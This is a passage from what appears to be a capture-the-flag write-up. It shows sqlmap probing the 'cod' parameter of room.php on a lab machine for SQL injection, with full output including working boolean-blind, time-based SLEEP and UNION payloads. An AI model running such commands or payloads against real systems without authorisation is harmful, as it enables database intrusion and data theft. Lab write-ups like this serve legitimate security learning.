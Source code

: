 After much fiddling, it felt like I was down a rabbit hold, so I started poking around the web content some more. Looking at a room page, http://10.10.10.143/room.php?cod=1 the url contains a parameter. Changing this to a single quote results in a page with no room content loaded, so I thought I'd try using SQLmap to probe for SQLi.

```
sqlmap -u http://10.10.10.143/room.php\?cod\=1 -p cod
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.3.7#stable}
|_ -| . [.]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:40:23 /2019-07-28/

[15:40:23] [INFO] testing connection to the target URL
[15:40:23] [INFO] testing if the target URL content is stable
[15:40:24] [INFO] target URL content is stable
[15:40:24] [WARNING] heuristic (basic) test shows that GET parameter 'cod' might not be injectable
[15:40:24] [INFO] testing for SQL injection on GET parameter 'cod'
[15:40:24] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[15:40:24] [INFO] GET parameter 'cod' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="of")
[15:40:25] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] n
[15:40:30] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[15:40:30] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[15:40:30] [INFO] testing 'MySQL inline queries'
[15:40:30] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[15:40:30] [WARNING] time-based comparison requires larger statistical model, please wait........ (done)          
[15:40:41] [INFO] GET parameter 'cod' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[15:40:41] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[15:40:41] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[15:40:41] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[15:40:41] [INFO] target URL appears to have 7 columns in query
[15:40:42] [INFO] GET parameter 'cod' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'cod' is vulnerable. Do you want to keep testing the others (if any)? [y/N] sqlmap identified the following injection point(s) with a total of 53 HTTP(s) requests:
---
Parameter: cod (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cod=1 AND 1479=1479

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: cod=1 AND (SELECT 4178 FROM (SELECT(SLEEP(5)))zsfE)

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: cod=-6211 UNION ALL SELECT NULL,NULL,CONCAT(0x7162716271,0x7177564e59745556435174517942716b47536b54756d7a774f4d7152434d4c697266416a4f645849,0x716a787671),NULL,NULL,NULL,NULL-- hHoo
```
